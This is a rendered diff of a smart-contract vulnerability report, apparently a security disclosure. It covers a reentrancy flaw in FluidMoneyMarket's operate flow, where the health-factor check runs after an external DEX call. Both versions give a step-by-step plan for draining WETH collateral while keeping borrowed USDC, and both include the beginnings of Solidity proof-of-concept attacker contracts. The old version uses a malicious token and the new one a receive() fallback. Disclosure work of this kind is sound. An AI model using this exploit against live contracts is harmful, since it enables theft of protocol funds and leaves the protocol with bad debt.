

Before and after one commit to tmoor9/sscrypto, a Markdown page: VulnerabilityReport.md, the part around one of its changes. Shown at 83% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/VulnerabilityReport.md
+++ b/VulnerabilityReport.md
@@ -8,23 +8,26 @@
 
 ## Root Cause
 
-The reentrancy vulnerability exists due to the cross-contract interactions between the `FluidMoneyMarket` and `FluidDexV2` contracts. Specifically, the `FluidMoneyMarket.operate` function delegates calls to the DEX via `DEX_V2.startOperation`. This external call eventually leads to a callback to the `FluidMoneyMarket.startOperationCallback` function, which then calls `DEX_V2.operate` to perform token transfers. The critical flaw is that the health factor check in the `FluidMoneyMarket` is performed *after* the token transfer has occurred. This creates a window where an attacker can execute a reentrant call to `FluidMoneyMarket.operate` before the initial health factor check is completed, allowing them to withdraw more collateral than their position allows.
+A critical reentrancy vulnerability exists in the `FluidMoneyMarket.operate` function's execution flow when handling D3/D4 DEX positions. The root cause is a violation of the checks-effects-interactions pattern. Specifically, within the `FluidMoneyMarketCallbackImplementation.startOperationCallback` function, the health factor check (`_checkHf`) is performed *after* an external call is made to `DEX_V2.operate`.
+
+This external call can result in a token transfer. If the transferred token is WETH, the withdrawal to a contract address triggers the contract's `receive()` fallback function. This allows an attacker to re-enter the `FluidMoneyMarket.operate` function before the health factor of their position is checked from the initial operation.
 
 ## Exploit Path
 
-1. The attacker creates a malicious ERC20 token with a transfer hook.
-2. The attacker creates a D3 position in the `FluidMoneyMarket` using the malicious tokens as collateral.
-3. The attacker borrows another asset (e.g., USDC) against their malicious collateral.
-4. The attacker calls `FluidMoneyMarket.operate` to withdraw a small amount of their malicious collateral.
-5. The `FluidMoneyMarket` calls `FluidDexV2` to perform the withdrawal.
-6. The DEX transfers the malicious token to the attacker, triggering the transfer hook.
-7. The transfer hook makes a reentrant call to `FluidMoneyMarket.operate`, this time requesting to withdraw the *entire* collateral.
-8. Since the health factor check for the initial withdrawal has not yet been performed, the reentrant call succeeds, and the attacker drains the position, leaving the borrowed funds uncollateralized.
-9. The initial call then fails its health factor check, but the attacker has already stolen the funds and left the protocol with bad debt.
+The exploit can be executed without any privileged roles, using standard, listed assets like WETH and USDC.
+
+1.  **Setup:** The attacker contract supplies a significant amount of WETH as collateral to the `FluidMoneyMarket`, creating a new NFT position.
+2.  **Borrow:** The attacker borrows a large amount of another asset (e.g., USDC) against the WETH collateral, bringing the health factor of the position close to the liquidation threshold.
+3.  **Create DEX Position:** The attacker creates a small D3 liquidity position (e.g., WETH/USDC) within the same NFT. This is necessary to open up the vulnerable withdrawal path via the DEX.
+4.  **Trigger Reentrancy:** The attacker calls `FluidMoneyMarket.operate` to withdraw a tiny amount of WETH from the *D3 position*. This action initiates the DEX withdrawal flow.
+5.  **External Call:** The DEX processes the withdrawal and transfers WETH to the attacker's contract. The unwrapping of WETH to native ETH triggers the attacker's `receive()` fallback function.
+6.  **Re-enter:** Inside the `receive()` function, the attacker makes a reentrant call to `FluidMoneyMarket.operate`, this time targeting their main WETH collateral position and requesting a full withdrawal (`type(int256).min`).
+7.  **Bypass Health Check:** Because the health factor check for the initial D3 withdrawal has not yet been executed, the protocol's state still reflects the full collateral being present. The reentrant call to withdraw the main collateral therefore succeeds, as the position is still considered healthy.
+8.  **Result:** The attacker successfully withdraws all their WETH collateral while keeping the borrowed USDC. The initial operation's health factor check will now fail, but it is too late. The attacker has created a large amount of bad debt in the protocol, effectively stealing the borrowed funds.
 
 ## PoC (Proof of Concept)
 
-The following `ReentrancyPoc.sol` contract demonstrates the exploit. It can be deployed and the `runExploit` function can be called to execute the attack.
+The following `ValidReentrancy.t.sol` contract demonstrates the exploit.
 
 ```solidity
 // SPDX-License-Identifier: UNLICENSED
@@ -38,40 +41,37 @@ import {FluidMoneyMarketOperateModule} from "src/moneyMarket/operateModule/main.
 import {FluidMoneyMarketLiquidateModule} from "src/moneyMarket/liquidateModule/main.sol";
 import {FluidMoneyMarketAdminModuleImplementation} from "src/moneyMarket/adminModule/main.sol";
 import {FluidMoneyMarketCallbackImplementation} from "src/moneyMarket/callbackModule/main.sol";
-import {DexV2BaseSetup} from "../test/foundry/dexV2/baseSetup.t.sol";
-import {TestERC20} from "../test/foundry/testERC20.sol";
+import {DexV2BaseSetup} from "test/foundry/dexV2/baseSetup.t.sol";
 import {CreateD3D4PositionParams} from "src/moneyMarket/operateModule/structs.sol";
 import {DexKey, InitializeParams} from "src/dexV2/d3d4common/structs.sol";
 import {TickMath as TM} from "lib/v3-core/contracts/libraries/TickMath.sol";
 import {FixedPointMathLib} from "lib/solmate/src/utils/FixedPointMathLib.sol";
 import {FluidDexV2D3UserModule} from "src/dexV2/d3/userModule.sol";
+import {IWETH} from "src/interfaces/IWETH.sol";
 
-// Forward declaration
-contract AttackContractPoc;
+contract Attacker {
+    FluidMoneyMarket public moneyMarket;
+    IWETH public weth;
+    IERC20 public usdc;
 
-contract MaliciousERC20Poc is TestERC20 {
-    AttackContractPoc attacker;
+    uint256 public nftId;
+    uint256 public collateralPositionIndex;
+    uint256 public d3PositionIndex;
 
-    constructor(string memory name, string memory symbol, uint8 decimals) TestERC20(name, symbol, decimals) {}
+    bool internal reentered = false;
 
-    function setAttacker(address _attacker) public {
-        attacker = AttackContractPoc(_attacker);
+    constructor(FluidMoneyMarket _moneyMarket, address _weth, address _usdc) {
+        moneyMarket = _moneyMarket;
+        weth = IWETH(_weth);
+        usdc = IERC20(_usdc);
     }
 
-    function transfer(address to, uint256 amount) public virtual override returns (bool) {
-        if (address(attacker) != address(0) && msg.sender == address(attacker.dexV2()) && to == address(attacker)) {
-            attacker.onTokenTransfer();
-        }
-        return super.transfer(to, amount);
-    }
-}
+    function setupPosition(uint256 usdcTokenIndex) public {
+        weth.approve(address(moneyMarket), type(uint256).max);
+        usdc.approve(address(moneyMarket), type(uint256).max);
 
-contract AttackContractPoc {
-    FluidMoneyMarket public moneyMarket;
-    FluidDexV2 public dexV2;
-    MaliciousERC20Poc public token0;
-    MaliciousERC20Poc public token1;
-    uint256 public nftId;
-    uint256 public positionIndex;
-    bool internal reentered = false;
+        // 1. Supply 100 WETH as collateral
+        uint256 wethSupplyAmount = 100 ether;
+        bytes memory supplyData = abi.encode(1, 1, wethSupplyAmount); // NORMAL_SUPPLY_POSITION_TYPE, WETH is tokenIndex 1
+        (nftId, collateralPositionIndex) = moneyMarket.operate(0, 0, supplyData);
 
````
Also changed, not shown: other parts of VulnerabilityReport.md (+79 -134 lines).
